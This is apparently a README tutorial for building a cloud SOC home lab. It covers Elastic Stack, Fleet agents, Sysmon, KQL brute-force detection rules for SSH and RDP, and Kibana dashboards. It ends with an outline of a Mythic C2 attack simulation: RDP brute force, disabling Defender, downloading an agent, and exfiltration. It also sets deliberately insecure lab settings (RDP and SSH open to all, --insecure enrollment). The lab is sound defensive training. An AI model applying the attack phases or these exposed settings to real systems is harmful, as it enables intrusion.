# A Security Operations Center (SOC) Home Lab  

## Project Overview  

Deploying a Security Operations Center (SOC) in the cloud to simulate real-world monitoring, threat detection, and incident response workflows using Elastic Stack and the osTicket ticketing system. The focus is on detecting and mitigating command-and-control (C2) activities and brute force attacks targeting SSH and RDP.  

## Objectives  

### Establish a Centralized Monitoring Infrastructure  
- Install ELK SIEM.  
- Install endpoint agents on endpoints.  

### Simulate Realistic Attack Scenarios  
- RDP brute force.  
- SSH brute force.  
- Command and Control (C2).  

### Incident Response Workflow  
- Set up a ticketing system with osTicket.  
- Create detection and alert rules.  
- Install EDR Elastic Defend.  

## Tools Overview  

- **Elastic Stack (Elasticsearch, Logstash, Kibana)**: A Security Information and Event Management (SIEM) solution providing a centralized platform for collecting and analyzing logs, creating detection rules, and monitoring threats.  
- **Fleet Server**: Elastic's centralized service for managing Elastic agents.  
- **Kali Linux**: A penetration testing Linux distribution for simulating cyberattacks.  
- **Mythic C2**: A Command-and-Control (C2) framework to emulate attacker behavior.  
- **osTicket**: An open-source ticketing system to manage SOC incidents and facilitate collaboration.  
- **Elastic Defend**: An Endpoint Detection and Response (EDR) solution designed for real-time monitoring, detection, and response to endpoint threats.

## Lab Topology


## Step 1: Installing ELK on a Cloud VM  

In this step, we’ll install Elasticsearch and Kibana on a cloud-based virtual machine (VM) as part of building the Elastic Stack (ELK). 


### **Why Cloud?** 

A cloud setup is ideal for this lab due to the number of VMs involved, which can be challenging to run on a single physical machine.
Cloud platforms like Azure, AWS, GCP, Vultr and DigitalOcean offer scalability and flexibility. Look for one that offers free credits to get started.


### **Setting Up the Cloud Environment**  

1. **Choose a Cloud Provider:**  
   Sign up for a platform that offers free credits to minimize costs.

2. **Configure the Network:**  
   - Create a Virtual Network (VNet) or Virtual Private Cloud (VPC).  
   - Assign a CIDR range, e.g., `10.200.200.0/24` (approximately 250 usable IPs).  
   - To start, set up a firewall rule to allow access only from your public IP address for security. We will add more IPs to the allow list as needed.


### **Deploying the Elastic VM**  

1. **Create a Virtual Machine (VM):**  
   - **OS:** Ubuntu 22.04 LTS  
   - **Resources:** 6 vCPUs, 16 GB RAM  
   - **Network:** Assign it to the VNet you just created.  
   - **Name:** `ELK`  

2. **Access the VM via SSH:**  
   ```bash
   ssh root@<VM Public IP>
   ```  
   Replace `<VM Public IP>` with the VM’s public IP address.

3. **Update and Upgrade the System:**  
   ```bash
   apt-get update && apt-get upgrade -y
   ```

### **Installing Elasticsearch**  

1. **Download the Elasticsearch Package:**  
   - Visit [Elastic’s download page](https://www.elastic.co/downloads/elasticsearch). 
   - Copy the link for the `deb` x86_64 package.


   - Download it using `wget`:  
     ```bash
     wget https://artifacts.elastic.co/downloads/elasticsearch/elasticsearch-8.16.0-amd64.deb
     ```

2. **Install Elasticsearch:**  
   ```bash
   dpkg -i elasticsearch-8.16.0-amd64.deb
   ```

3. **Save the Security Auto-Configuration Information:**  
   - During installation, a superuser password is displayed. Save this in your password manager.


4. **Modify the Configuration File:**  
   - Navigate to this directory:  
     ```bash
     cd /etc/elasticsearch
     ```
   - Open `elasticsearch.yml` for editing:  
     ```bash
     nano elasticsearch.yml
     ```
   - Uncomment and set the following:  
     ```yaml
     network.host: <VM Private IP>
     http.port: 9200
     ```
   - Save and exit.


5. **Start the Elasticsearch Service:**  
   ```bash
   sudo systemctl daemon-reload
   sudo systemctl enable elasticsearch.service
   sudo systemctl start elasticsearch.service
   sudo systemctl status elasticsearch.service
   ```


### **Installing Kibana**  

1. **Download the Kibana Package:**  
   - From [Elastic’s download page](https://www.elastic.co/downloads/kibana), copy the link for the `deb` x86_64 package.  
   - Download it using `wget`:  
     ```bash
     wget https://artifacts.elastic.co/downloads/kibana/kibana-8.16.0-amd64.deb
     ```

2. **Install Kibana:**  
   ```bash
   dpkg -i kibana-8.16.0-amd64.deb
   ```

3. **Modify the Configuration File:**  
   - Open `kibana.yml` for editing:  
     ```bash
     nano /etc/kibana/kibana.yml
     ```
   - Update the following:  
     ```yaml
     server.host: <VM Public IP>
     server.port: 5601
     ```
   - Save and exit.

4. **Start the Kibana Service:**  
   ```bash
   sudo systemctl daemon-reload
   sudo systemctl enable kibana.service
   sudo systemctl start kibana.service
   sudo systemctl status kibana.service
   ```


5. **Generate the Enrollment Token:**  
   - Navigate to Elasticsearch’s binaries directory:  
     ```bash
     cd /usr/share/elasticsearch/bin
     ```
   - Run:  
     ```bash
     ./elasticsearch-create-enrollment-token --scope kibana
     ```
   - Copy the token created for use during Kibana setup.


### **Access Kibana**  

1. **Update Firewall Rules:**  
   - From the ELK VM, allow access to Kibana’s port (5601):  
     ```bash
     sudo ufw allow 5601
     ```
   - Update the cloud platform’s firewall settings to allow port 5601 from your public IP.

2. **Connect to Kibana:**  
   - Open a browser and navigate to:  
     ```plaintext
     https://<VM Public IP>:5601
     ```
   - Enter the enrollment token and follow the setup prompts.


### Retrieve and Enter Kibana Verification Code

1. **Prompt for Verification**:
   After entering the enrollment token in the Kibana web interface, it will prompt you for a verification code. To get this code:
   Navigate to the directory containing Kibana's binaries:
   ```sh
   cd /usr/share/kibana/bin
   ```

2. **List the Files**:
   List all files in this directory to ensure you are in the correct location:
   ```sh
   ls
   ```
3. **Run the Verification Code Command**:
   Run this command to retrieve the verification code:
   ```sh
   ./kibana-verification-code
   ```


4. **Enter the Code in Kibana GUI**:
   Go to the Kibana GUI in your web browser, and paste the verification code when prompted.

5. **Login Credentials**:
   You will also need to enter the default username and password that were generated during the Elasticsearch installation. The default username is `elastic`, and you should have saved the password from the initial setup.

6. **Complete Setup**:
   Once logged in, select "Explore on my own" to proceed with the setup.

### Configure Kibana Keystores

1. **Access Security Alerts**:
   In the Kibana GUI, click the hamburger menu (three horizontal lines) in the top left corner. Scroll down to the Security tab and click on "Alerts". You might see an error message saying "Failed to retrieve detection engine privileges".


2. **Generate Encryption Keys**:
   Return to your SSH terminal and navigate to the Kibana binary directory again:
   ```sh
   cd /usr/share/kibana/bin
   ls
   ```
   Generate the encryption keys using the following command:
   ```sh
   ./kibana-encryption-keys generate
   ```
   The command will output three keys:
   - `xpack.encryptedSavedObjects.encryptionKey`
   - `xpack.reporting.encryptionKey`
   - `xpack.security.encryptionKey`



3. **Add Keys to Kibana Keystore**:
   Add each key to the Kibana keystore one by one:
   ```sh
   ./kibana-keystore add
   ```
   Follow the prompts to enter each key. 


4. **Restart Kibana Service**:
   Once all keys are added, restart the Kibana service to apply the changes:
   ```sh
   sudo systemctl restart kibana.service
   ```

5. **Verify Configuration**:
   Refresh the Kibana GUI webpage and sign back in. Navigate to the Alerts section again, and the error message should no longer appear.


## Deploying the Target Windows Server

1. **Deploy the VM**:
   - Create a new VM on your chosen cloud platform, using a Windows Server image.
   - Ensure that this VM is **not** placed in the protected VPC/VNET you created for other VMs.

2. **Enable RDP**:
   - Enable Remote Desktop Protocol (RDP) for everyone to allow telemetry collection of unsuccessful RDP login attempts.
   - Configure the firewall to allow RDP access. Expect that this VM will receive RDP attempts, which is useful for our telemetry data.

## Deploying the Fleet Server (Ubuntu)

1. **Deploy Ubuntu Server**:
   - Create a new Ubuntu Server VM with 1 or 2 vCPUs and 4GB of RAM.
   - Place this VM in the same VPC or VNET as your other VMs, which has the same firewall rules, to ensure communication.

2. **Configure Elastic Fleet Server**:
   - Navigate to Kibana, click the hamburger menu, scroll down to the Management tab, and click on Fleet.
   - Click on "Add Fleet Server," choose "Quick Start," and fill in the name and public address of the fleet server you just created.
   - Click on "Generate Fleet Server Policy."


3. **SSH into the Fleet Server**:
   - Connect to the fleet server using SSH and run the following command to update the server:
     ```sh
     sudo apt-get update && apt-get upgrade -y
     ```

4. **Update Firewall Rules**:
   - Update the cloud firewall rules to allow TCP connections from the fleet server's public IP address.
   - From the Fleet server, configure firewall rules to allow connections on port 9200. Make sure to apply the same configuration to the ELK server as well:
     ```sh
     ufw allow 9200
     ```

5. **Install Elastic Agent on Fleet Server**:
   - Copy the command provided in Kibana and run it in the fleet server:
     ```sh
     curl -L -O https://artifacts.elastic.co/downloads/beats/elastic-agent/elastic-agent-8.16.0-linux-x86_64.tar.gz
     tar xzvf elastic-agent-8.16.0-linux-x86_64.tar.gz
     cd elastic-agent-8.16.0-linux-x86_64
     sudo ./elastic-agent install \
       --fleet-server-es=https://<ELK_SERVER_PUBLIC_IP>:9200 \
       --fleet-server-service-token=<SERVICE_TOKEN> \
       --fleet-server-policy=fleet-server-policy \
       --fleet-server-es-ca-trusted-fingerprint=<FINGERPRINT> \
       --fleet-server-port=8220
     ```


## Windows Server Elastic Agent Configuration

### Elastic Agent Deployment on Windows target server

1. **Create Agent Policy**:
   - In Kibana, click on `Continue enrolling elastic agent` and add a new agent policy.
   - Select Windows as the target platform.
   - Give it a name

2. **Copy PowerShell Command**:
   - Copy the provided PowerShell command for the agent installation.


### Pre-Deployment Steps

Before running the enrollment command on the target Windows server, perform the following steps:

1. **Allow Port 8220**:
   - Connect to the fleet server using SSH.
   - Run the following command to allow port 8220, which the agent uses to communicate with the fleet:
     ```sh
     sudo ufw allow 8220
     ```

2. **Modify PowerShell Command**:
   - Change the port in the copied PowerShell command from 443 to 8220.
   - Add the `--insecure` flag at the end of the command since a certificate hasn't been set up.


3. **Adjust Fleet Settings in Kibana**:
   - In Kibana, click the hamburger menu, scroll down to the Fleet management tab, and adjust the settings to use port 8220 instead of 443.


### Run the Enrollment Command

1. **Connect to Target Windows Server**:
   - Connect to the target Windows server via Remote Desktop Protocol (RDP).
   - Open an administrative PowerShell session.

2. **Execute Modified PowerShell Command**:
   - Paste and execute the modified PowerShell command in the PowerShell session on the target Windows server.

### Verify Agent Enrollment

   **Check Agent Status**:
   - Go back to Kibana.
   - Navigate to the Agents section under the Fleet management tab.
   - Verify that the "Target Win Server" is listed as an enrolled agent.


## Install and Configure Sysmon on Target Windows Server

1. **Download Sysmon**:
   - Download Sysmon from [Microsoft Sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon) and download the configuration file from [Olaf Hartong's GitHub](https://github.com/olafhartong/sysmon-modular).

2. **Install Sysmon**:
   - Open PowerShell in admin mode and run:
     ```sh
     .\Sysmon.exe -i sysmonconfig.xml
     ```




## Set Up Integrations in Elastic

To specify what telemetry data we want to send to Elasticsearch via our Elastic Agents:

1. **Configure Sysmon Integration**:
   - In Kibana, click on the hamburger menu, then under Management, select **Integrations**.
   - Search for "Windows Event" and click on **Custom Windows Events Logs**, then select **+ Add Custom Windows Event Logs**.
   - Provide a name and description for this integration.
   - For the channel name, use `Microsoft-Windows-Sysmon/Operational`, which can be found by navigating through Event Viewer on your Target Windows Server.
   - Leave the other settings as default, scroll down and click on **existing hosts**, choose the policy name you just created, and then click on **Save and Continue**.


2. **Configure Windows Defender Integration**:
   - Repeat similar steps for setting up an integration for Windows Defender.
   - Search for "Windows Defender" in Event Viewer, right-click on Operational logs, copy its full name for use as a channel name.
   - Specify that you only want to ingest Event IDs 1116, 1117, and 5001:
     - Event ID 1116: Malware detection.
     - Event ID 1117: Action taken against malware.
     - Event ID 5001: Real-time protection disabled.
   - Add these Event IDs during integration setup and save it under existing hosts with your policy name.




## Deploying the Target Ubuntu Server (SSH Server)

### Deploying the VM

Deploy a new Ubuntu server, which will serve as our target SSH server. This VM doesn't need to be very powerful, so you can select 1 or 2 vCPUs and 1 or 2 GB of RAM. Ensure that this VM is placed in a different Virtual Network than your other VMs, and make sure SSH port 22 is open to everyone. This setup will allow us to collect brute force SSH telemetry.

### Installing the Elastic Agent

Now, let's install the Elastic Agent on this new target SSH server VM.

1. **Access Kibana**:
   - In Kibana click on the hamburger menu in the top left corner.
   - Scroll down to the Management tab and click on Fleet.

2. **Create Agent Policy**:
   - Click on Agent policies and then click on Add.
   - Give it a name and create the agent policy.

3. **Add Agent**:
   - Navigate to the Agents tab and click on "Add agent".
   - Select the policy you just created.
   - Copy the provided command, ensuring to add the `--insecure` flag since we are using a self-signed certificate.

4. **Run the Command on SSH Server**:
   - SSH into the target Ubuntu server and run the following commands:
     ```sh
     curl -L -O https://artifacts.elastic.co/downloads/beats/elastic-agent/elastic-agent-8.16.1-linux-x86_64.tar.gz
     tar xzvf elastic-agent-8.16.1-linux-x86_64.tar.gz
     cd elastic-agent-8.16.1-linux-x86_64
     sudo ./elastic-agent install --url=https://<FLEET_SERVER_PUBLIC_IP>:8220 --enrollment-token=<ENROLLMENT_TOKEN> --insecure
     ```


### Verify Installation

1. **Verify Agent Installation**:
   - Return to Kibana, navigate to the Agents section, and verify that the SSH server (your target Ubuntu server) is listed.


## Creating an SSH Brute Force Detection Rule Alert  

We will set up a detection rule in Kibana to alert us for SSH brute force attempts. This involves in crafting a KQL (Kibana Query Language) query that identifies and captures failed SSH login events.


### **Step 1: Querying SSH Events**  
1. **Filter for SSH Events**:
   - Open Kibana and navigate to **Discover**.  
   - Click on `agent.name` and select the target Ubuntu server (e.g., `SOClab-Linux`).  
   - In the search bar, type:  
     ```plaintext
     system.auth.ssh.event: *
     ```
     This will display all SSH-related log events, including successful and failed logins.  


2. **Add Useful Fields to the Table**:
   - Add the following fields to the columns for better visibility by clicking the `+` icon next to each field from the left hand side of your screen:
     - `system.auth.ssh.event`  
     - `user.name`  
     - `source.geo.country_name`  
     - `source.ip`  

3. **Filter for Failed Attempts**:
   - Hover over the `system.auth.ssh.event` field, find the value for failed attempts (e.g., `"Failed"`), and click the `+` icon to filter only those events.  


4. **Save the Query**:
   - At the top-right corner of the page, click on **Save Query**.  
   - Name the query, e.g., **SSH Failed Attempts**, and save it.


### **Step 2: Creating an SSH Brute Force Detection Rule**  

1. **Navigate to Detection Rules**:
   - Go to the **Security** tab in Kibana.  
   - Click on **Rules** and then select **Detection Rules (SIEM)**.  
   - Click on **+ Create New Rule**.  

2. **Choose a Rule Type**:
   - Select **Threshold**.  



3. **Define the Query**:
   - Scroll down and paste the following query:  
     ```plaintext
     agent.name:"SOClab-Linux" and system.auth.ssh.event:"Failed" and user.name:"root"
     ```
   - This query will detect failed SSH logins targeting the root user.  

4. **Configure the Rule**:
   - **Threshold**: 5 (to alert after five failed attempts from the same IP for the same username).  
   - **Group By**: `user.name` and `source.ip`  
   - **Required Fields**: Add `user.name` and `source.ip`.  
   - **About**: Provide a name and description for the rule (e.g., **SSH Brute Force Detection**).  Add `user.name`, `source.ip` and `Source.geo.country_name` as custom highlighted fields for the alerts. 
   - **Schedule**:
     - Run every 5 minutes.  
     - Look back at the last 5 minutes of logs.  



5. **Enable the Rule**:
   - Leave the default actions and click **Create & Enable Rule**.  




## Creating a Dashboard for SSH Activity

In this section, we will create a dashboard in Kibana to visualize SSH activity.

### Navigate to Maps

   **Open the Maps Interface**:
   - In Kibana, click on the hamburger menu in the top left corner, then select **Maps**.

### Add a Failed SSH Layer

1. **Use the Same Query We Crafted Before for Failed SSH Logins**:
   - Paste the following query into the search bar:
     ```plaintext
     agent.name:"SOClab-Linux" and system.auth.ssh.event:"Failed"
     ```
   - Press **Enter** to execute the query.


2. **Add a Layer**:
   - Click on **Add layer**.
   - Choose **Choropleth** from the options.


3. **Select Data View**:
   - From the **EMS Boundaries** dropdown, select **World Countries**.
   - For the data view, select your relevant data source.
   - In the join field dropdown menu, choose `source.geo.country_iso_code`.


4. **Finalize Layer Settings**:
   - Click on **Add and continue**, leaving all settings as default.
   - Click on **Save** at the top-right corner of the screen.


### Name the Map

   **Provide a Title**:
   - Enter a title like **Failed SSH Logon Attempts** and click on **Save**.


### Step 4: Duplicate for Successful SSH Attempts

   **Create a Successful Logins Map**:
   - Click on the three-dot menu next to your failed attempts map and select **Duplicate**.
   - Change the query to:
     ```plaintext
     agent.name:"SOClab-Linux" and system.auth.ssh.event:"Accepted"
     ```
   - Update the title to **Successful SSH Logon Attempts** and click on **Save**.


## Creating an RDP Brute Force Alert

Just like we did for the SSH brute force detection rule, let's craft a KQL (Kibana Query Language) query in Kibana to identify and filter out failed RDP (Remote Desktop Protocol) login attempts.

### Querying RDP Events

In Kibana, navigate to **Discover**.

### Craft the Query
To filter for failed RDP login attempts, we need to craft a query with the following components:

- **Target Windows Server**: Filter logs to only show entries from your specific server using `agent.name`.
- **Event Code 4625**: This event code represents failed logon attempts, so we'll specify `event.code: "4625"`.
- **User Name**: Focus on the `administrator` user with `user.name: "administrator"`.

The complete query looks like this:

```plaintext
agent.name: "Target-Win-Server" and event.code: "4625" and user.name: "administrator"
```

This query will display all failed logon attempts by the `administrator` user on the `Target-Win-Server`.

### Save the Query
1. At the top-right corner, click on **Save Query**.
2. Name the query, e.g., **RDP Failed Attempts**, and save it.

### Creating an RDP Brute Force Detection Rule

1. **Navigate to Detection Rules**:
   - Go to the **Security** tab in Kibana.
   - Click on **Rules** and then select **Detection Rules (SIEM)**.
   - Click on **+ Create New Rule**.

2. **Choose a Rule Type**:
   - Select **Threshold**.

3. **Define the Query**:
   - Scroll down and paste the following query:
     ```plaintext
     agent.name: "Target-Win-Server" and event.code: "4625" and user.name: "administrator"
     ```

4. **Configure the Rule**:
   - **Threshold**: 5 (to alert after five failed attempts from the same IP for the same username).
   - **Group By**: `user.name` and `source.ip`
   - **Required Fields**: Add `user.name` and `source.ip`.
   - **About**: Provide a name and description for the rule (e.g., **RDP Brute Force Detection**). Add `user.name`, `source.ip`, and `source.geo.country_name` as custom highlighted fields for the alerts.
   - **Schedule**:
     - Run every 5 minutes.
     - Look back at the last 5 minutes of logs.

5. **Enable the Rule**:
   - Leave the default actions and click **Create & Enable Rule**.




## Adding RDP Activity to the Dashboard

### Navigate to Dashboard

   **Open the Maps Interface**:
   - In Kibana, click on the hamburger menu in the top left corner, then select **Maps**.

### Add a Failed RDP Layer

1. **Use the Same Query We Crafted Before for Failed RDP Logins:**:
   - Paste the following query into the search bar:
     ```plaintext
     agent.name: "Target-Win-Server" and event.code: "4625" and user.name: "Administrator"
     ```
   - Press **Enter** to execute the query.

2. **Add a Layer**:
   - Click on **Add layer**.
   - Choose **Choropleth** from the options.

3. **Select Data View**:
   - From the **EMS Boundaries** dropdown, select **World Countries**.
   - For the data view, select your relevant data source.
   - In the join field dropdown menu, choose `source.geo.country_iso_code`.

4. **Finalize Layer Settings**:
   - Click on **Add and continue**, leaving all settings as default.
   - Click on **Save** at the top-right corner of the screen.

### Name the Map

   **Provide a Title**:
   - Enter a title like **Failed RDP Logon Attempts** and click on **Save**.

### Duplicate for Successful RDP Attempts

   **Create a Successful Logins Map**:
   - Click on the three-dot menu next to your failed attempts map and select **Duplicate**.
   - Change the query to:
     ```plaintext
     agent.name: "Target-Win-Server" and event.code: "4624" and user.name: "Administrator"
     ```
   - Update the title to **Successful RDP Logon Attempts** and click on **Save**.


## Enhancing the Dashboard with More Visualizations

Now that we have all four maps in our dashboard, let's add more details by creating visualizations in the form of tables. This will help us better analyze the SSH and RDP login attempts.

### Step 1: Create a Table for Failed SSH Logon Attempts

1. **Create Visualization**:
   - In the dashboard we just created, click on **Create Visualization**.

2. **Input the Query**:
   - Copy the failed SSH logon attempts query into the search field:
     ```plaintext
     agent.name:"SOClab-Linux" and system.auth.ssh.event:"Failed" and user.name:"root"
     ```

3. **Add Relevant Fields**:
   - Drag and drop the following fields into your table:
     - `source.ip`
     - `user.name`
     - `source.geo.country_name`

4. **Change Visualization Type**:
   - Change the visualization type from the default **Bar** to **Table**.


5. **Configure Each Field**:
   - Click on each field from the right side of your screen to configure it:
     - For the `user.name` field, change the number of values to **10**.
     - Click on **Advanced** and uncheck the option for **Group remaining values as "other"**.
   - Repeat this configuration for the other fields.


6. **Sort Records**:
   - Click on the three little dots in the count of records column and select **Sort Descending**.


7. **Save the Table**:
   - Once configured, click on **Save** at the top right of the screen.

### Step 2: Create a Table for Successful SSH Logon Attempts

1. **Duplicate Table**:
   - Click on **Duplicate** to create a similar table for successful SSH logons.
   
2. **Change Title and Query**:
   - Update the title to something like **Successful SSH Logon Attempts**.
   - Modify the query to reflect successful logins:
     ```plaintext
     agent.name:"SOClab-Linux" and system.auth.ssh.event:"Accepted" and user.name:"root"
     ```

### Step 3: Create Tables for RDP Logon Attempts

1. **Create Table for Failed RDP Logons**:
   - Duplicate one of the existing tables.
   
2. **Change Title and Query**:
   - Update the title to **Failed RDP Logon Attempts**.
   - Change the query to:
     ```plaintext
     agent.name:"Target-Win-Server" and event.code:"4625" and user.name:"Administrator"
     ```

3. **Create Table for Successful RDP Logons**:
   - Duplicate the failed RDP logon attempts table again.
   
4. **Change Title and Query**:
   - Update this table’s title to **Successful RDP Logon Attempts**.
   - Modify the query to:
     ```plaintext
     agent.name:"Target-Win-Server" and event.code:"4624" and user.name:"Administrator"
     ```

Now, you have a dashboard with clear visualizations that allow you to quickly see, at a glance, failed and successful RDP and SSH logins, along with tables displaying the IP addresses and countries from which they originated.


## Setting Up Mythic C2 (Command & Control)

In this section, we will set up Mythic C2, a Command and Control framework that allows adversaries to communicate with systems under their control within a victim network. This setup will help us simulate C2 activities as part of our home lab.

### Diagram Overview


### Phases of the C2 Setup

1. **Phase 1: Initial Access**
   - We will use Kali Linux to perform an RDP brute force attack on the target Windows server.

2. **Phase 2: Successful RDP Logon**
   - After successfully logging in via RDP, we will execute discovery commands.

3. **Phase 3: Defense Evasion**
   - We will disable Windows Defender on the Windows server to avoid detection.

4. **Phase 4: Execution**
   - We will run a PowerShell command to download and install the Mythic Agent.

5. **Phase 5: Command & Control**
   - Establish a C2 session using Mythic.

6. **Phase 6: Exfiltration**
